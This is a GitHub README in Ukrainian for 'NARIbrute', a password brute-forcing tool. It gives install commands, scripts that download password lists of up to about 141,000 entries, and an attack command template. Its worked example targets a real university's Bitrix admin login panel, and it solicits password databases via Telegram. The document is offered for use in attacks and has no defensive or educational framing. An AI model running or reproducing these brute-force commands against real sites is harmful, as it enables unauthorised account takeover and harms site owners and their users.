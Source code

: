 <h1 align="center">Подпишись на мій телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">N∆RIbrute</h3>
<h3 align="center">Паролів зараз ~29000</h3>
<img src="https://i.ibb.co/bJ0f863/Screenshot-2022-06-16-16-35-09-31-84d3000e3f4017145260f7618db1d683.jpg" alt="icon">
Постійно буду обновлювати якщо хочеш допомогти кидай бази паролів у мій телеграм у фарматі .txt @samurai_gh<br>
Можна сказати що він "універсальний" якщо форма відправки така <br>
post login[username]<br>
post login[password]<br>
Ті хто шарать зрозуміють<br>
<h3 align="center">Установка:</h3><br>
Клонуем git <br>
 
```shell
git clone https://github.com/Samuraianonweb/NARIbrute
```
<br>
 
```shell
cd NARIbrute
```
<br>

Установка бази паролів (рандом по 500 паролів) <br>
```
python2 baza_pass.py
```
Завантажити базу 10000 паролів<br>
```
python2 full.py
```
Завантажити базу 140991 паролів(не оброблені)<br>
```
python2 all.py
```
Якщо потрібно скачати базу за номером(Для того щоб розсортувати навантаження по машинах) . Всі бази:https://github.com/Samuraianonweb/password<br>
Id бази це перші цифри (id)_500.txt<br>

```shell
python2 id_baza.py
```
<h3 align="center">Команда атаки:</h3>
 
```shell
python2 brute -url -login pass.txt 
```
-url = Посилання на панель/вхід<br>
-login = Логін (якщо відомо , якщо ні вставляємо Admin/admin)<br>
Приклади готової команди <br>
```shell
python2 brute https://id.sechenov.ru/bitrix/admin Admin pass.txt
```
